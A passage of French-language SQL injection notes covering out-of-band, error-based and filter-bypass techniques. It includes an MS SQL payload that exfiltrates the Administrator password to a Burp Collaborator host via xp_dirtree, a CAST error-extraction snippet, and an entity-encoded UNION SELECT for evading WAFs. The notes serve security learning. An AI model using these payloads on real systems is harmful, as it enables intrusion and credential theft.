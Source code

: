 On peut facilement obtenir un sous-domaine utilisable DNS pour des tests avec des outils tels que : https://webhook.site.

Exemple de payload sur Microsoft SQL :
```SQL
''; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```
La syntaxe dépend du moteur SQL (MySQL, PostgreSQL, ...).

**Note :** les out-of-band SQLi sont très performantes car elles permettent d'exfiltrer des données directement sans avoir à deviner un caractère à la fois, et elles fonctionnent souvent lorsqu'une autre sorte de blind SQLi fonctionne (cela dépend des restrictions réseau).


# Exfiltration de données via des erreurs
Si lorsqu'une requête est mal formée, l'erreur est renvoyée à l'utilisateur, alors on peut :
1. Mieux comprendre comment la requête est faite et réaliser une SQLi
2. Créer volontairement une erreur qui renverra le résultat d'une partie de la requête SQL

La deuxième option permet d'exfiltrer des résultats SQL et d'éviter de devoir réaliser une blind SQLi.
Pour ce faire, on peut typiquement utiliser la fonction `CAST`:
```SQL
CAST((SELECT example_column FROM example_table) AS int)
```
Le résultat de la requête `SELECT` est une chaîne de caractères, ce qui causera une erreur lorsqu'on essaiera de le convertir en int.
On obtient alors une erreur comme : `ERROR: invalid input syntax for type integer: "Example data"`, qui nous révèle le résultat de notre requête.


# Contourner les filtres et WAF
Pour les filtres les plus simples, il suffit d'encoder les caractères des mots probablement interdits (ex : `SELECT`). Les types d'encodage utilisables dépendent du point d'entrée : URL, XML, ...

Exemple, dans un champ XML, l'encodage suivant permet deontourner les filtres sur `SELECT`, `UNION`, `'` et `--` : 
```SQL
&#85;&#78;&#73;&#79;&#78; &#83;&#69;&#76;&#69;&#67;&#84; password FROM users WHERE username=&#39;administrator&#39;&#45;&#45;
```
La requête exécutée est : `UNION SELECT password FROM users WHERE username='administrator'--`


# Second-order SQLi
Parfois, l'entrée utilisateur est traité correctement et est enregistré dans la base de données, puis dans un second temps, cette donnée enregistrée est à nouveau manipulée mais sans les précaution d'emploi nécessaire.
On parle alors de second-order SQLi ou de SQLi stockée.
